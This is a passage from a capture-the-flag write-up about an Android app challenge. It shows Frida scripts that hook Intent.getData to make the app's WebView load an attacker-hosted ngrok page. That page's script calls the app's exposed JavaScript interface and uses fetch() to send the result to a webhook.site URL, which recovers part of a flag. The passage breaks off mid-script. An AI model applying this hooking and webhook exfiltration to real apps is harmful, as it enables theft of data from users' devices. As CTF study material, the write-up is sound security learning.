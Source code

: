 ```js
Java.perform(function () {
	var Intent = Java.use('android.content.Intent');
	Intent.getData.overload().implementation = function() {
		console.log("-------------------HOOKED getData-----------------");

		var UriBuilder = Java.use('android.net.Uri$Builder');
		var UriBuilderInstance = UriBuilder.$new();
		var String = Java.use('java.lang.String');
		var str1 = String.$new("https://something-here.eu.ngrok.io/test.html");
		var strKey = String.$new("web")
		UriBuilderInstance.appendQueryParameter(strKey,str1);
		var uri = UriBuilderInstance.build();

		console.log(uri.toString());
		console.log(uri.getQueryParameter("web"));
		
        var result = this.getData();

		console.log(result);
		console.log(uri.getQueryParameter("web"));

		return uri;
	
	};
});
```

And the HTML for the site hosted via `ngrok` can be found below:

```html
<!-- client is the name of the Android exposed object -->
HELLO WORLD
<script>
fetch(`https://webhook.site/your-webhook-here?msg=${btoa(JSON.stringify(client.d()))}`);;;
</script>
```

My teammate found this way of getting the result of the `d` function. Since the `d` function returns a string we can simply call the function, Stringify it and convert it to base64 before visiting our webhook with the data in the url parameter "msg".

This is done to simplify the solving process slightly, as the `h.s()`  being returned in `d` is a native function, which would mean that normally we would have to find and reverse engineer the function found in `libo.so` to find out what it actually does or returns.

We view the site in the app on our emulator, and on the webhook we get the following a lookup with the following query string:
`msg=ImJpMHNDVEZ7NG5kcjAxZF8xNSI=`, which decodes to `"bi0sCTF{4ndr01d_15"`, the first part of the flag!

Getting the second part of the flag is trivial at this point. We simply hook the `h.s()` method called implicitly via our `JavascriptInterface` to return `h.ss()` instead. We then have the following frida script:
```js
Java.perform(function () {
	var Intent = Java.use('android.content.Intent');
	Intent.getData.overload().implementation = function() {
		console.log("-------------------HOOKED getData-----------------");

		var UriBuilder = Java.use('android.net.Uri$Builder');
		var UriBuilderInstance = UriBuilder.$new();
		var String = Java.use('java.lang.String');
		var str1 = String.$new("https://something-here.eu.ngrok.io/test.html");
		var strKey = String.$new("web")
		UriBuilderInstance.appendQueryParameter(strKey,str1);
		var uri = UriBuilderInstance.build();
```